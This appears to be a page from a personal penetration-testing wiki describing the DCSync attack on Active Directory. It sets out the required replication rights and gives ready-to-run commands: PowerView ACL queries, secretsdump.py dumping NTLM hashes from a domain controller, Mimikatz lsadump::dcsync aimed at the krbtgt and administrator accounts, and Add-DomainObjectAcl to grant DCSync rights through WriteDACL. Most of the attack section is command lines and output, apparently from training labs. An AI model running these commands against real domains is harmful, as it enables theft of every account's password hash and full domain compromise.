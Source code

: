 ```yaml
---
description: Syncing into full domain compomise
---
```


# DCSync

{% embed url="https://www.youtube.com/watch?ab_channel=Netwrix&v=_m3u13Df7Fc" %}
Hard to prevent and detec.
{% endembed %}

### What is a DCSync attack

DCSync is a attack for stealing the Active Directory password database by using the Directory Replication Service Remote Protocol. This allows an attacker to mimic a Domain Controller to retrieve all the user NTLM password hashes.

To perfrom this attack you need the rights:

* Replicating Directory Changes
* Replciating Directory Changes all

#### Use powershell to check for Replication rights

First retrieve the user's SID and then use Get-ObjectAcl to check or Replication rights

```bash
Get-DomainUser -Identity mczen  |select samaccountname,objectsid,memberof,useraccountcontrol |fl
$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
Get-ObjectAcl "DC=zencorp,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl

# Returns
AceQualifier          : AccessAllowed
ObjectDN              : DC=ZENCORP,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-498
ObjectAceType         : DS-Replication-Get-Changes

AceQualifier          : AccessAllowed
ObjectDN              : DC=ZENCORP,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-516
ObjectAceType         : DS-Replication-Get-Changes-All
```

### The DCSync attack

DCSync replication can be done by several tools. Runnings these tools and performing the DCSync attack will result in extracting NTLM hashes.

#### Secretsdump

```bash
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
```

* `-just-dc-ntlm` for NTLM hashes only
* `just-dc` for NTLM, Kerberos and cleartext
* -j`ust-dc-user` username for specific user
* `history` for password history
* `-pwd-last-set` password last changes

#### Mimikatz

When using Mimikatz we have to target a user and must ben run by the user who has the DCSync privileges.

```bash
# Using mimikatz.ps1
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'

# Using mimikatz.exe
.\mimikatz.exe
mimikatz # privilege::debug
mimikatz # lsadump::dcsync /domain:ZENCORP.LOCAL /user:ZENCORP\administrator

# Or target the krbtgt
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

### <mark style="color:yellow;">WriteDACL</mark>

The WriteDACL privilege gives a user the ability to add ACLs to an object. This means that we can add a user to this group and give them DCSync privileges.

* ACL: Acces Control Lists defines who has access to which asset or resource.
* ACE: Acces Control Entries stores ACL settings.
* Security principal: Entity to which ACE applies, like users, group or process.

Using powershell we can use these WriteDACL rights to add DCSync privileges to an aacount.

```bash
# Create credential object
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)

# Add DCSynce privilgess
Add-DomainObjectAcl -Credential $Cred -TargetIdentity testlab.local -Rights DCSync
```
